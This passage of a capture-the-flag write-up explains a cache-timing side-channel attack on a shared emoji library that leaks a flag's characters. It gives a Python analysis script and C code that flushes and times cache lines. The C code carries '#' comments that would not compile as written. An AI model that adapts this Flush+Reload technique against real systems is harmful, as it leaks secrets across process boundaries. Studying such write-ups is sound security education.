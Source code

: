 We then wrote a small python script, which would iterate over all of these graphs
and give us the characters that were used in the flag.

```python
import os
for x in os.listdir("."):
    arr = [y & 0xff for y in open(x, "rb").read()]
    if min(arr) < 180: # 180 cycles Threshold
        off = int(x.split(".")[0].split("_")[1], 16)
        off //= 0xa0*4
        print(chr(off+0x2d), "is in the flag")
```

The result was, that the flag must be made out of the characters `swR}W-FBL{TCdc3l10ne4_rbi`.

Graphing the latency-data for `C` showed a regular pattern of a single spike with a approximatly constant frequency.
This lead us to believe that the char `C` occured exactly once in the flag, and the observed frequency was the outer loop which took somewhat over 7ms in total. (5000µs sleep in the outer loop + appox 2000µs for printing the flag itself)

Based on the flag format `CTF-BR{....}` we could assume that this spike is the start of a new Flag. This key information now enhanced our script.
We would no longer search for just a single character, but two, namely `C` as our reference and our target char, in the following examples `e`.

```C
int main(int argc, char **argv) {
    void *emojilib = getEmojis();
    uint64_t start, end, delta, tmp;

#ifdef DEBUG
    uint64_t times[ITERATIONS];
#endif
    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + 0x3700);  # C-Offset
        clflush(emojilib + LIB_OFFSET);
        //usleep(1);  # You mustn't use syscalls in here
        pseudo_sleep(3000);
        if (160 > time_foo(emojilib + 0x3700)){
            deltas[i] = 1;
            i++;
        }

        deltas[i] = time_foo(emojilib + LIB_OFFSET);
#ifdef DEBUG
        times[i] = rdtsc();
#endif
    }

    for (int i = 0; i < ITERATIONS; i++){
        if (deltas[i] > 255) deltas[i] = 255;
        printf("%c", (char) deltas[i]);
    }

    return 0;
}
```
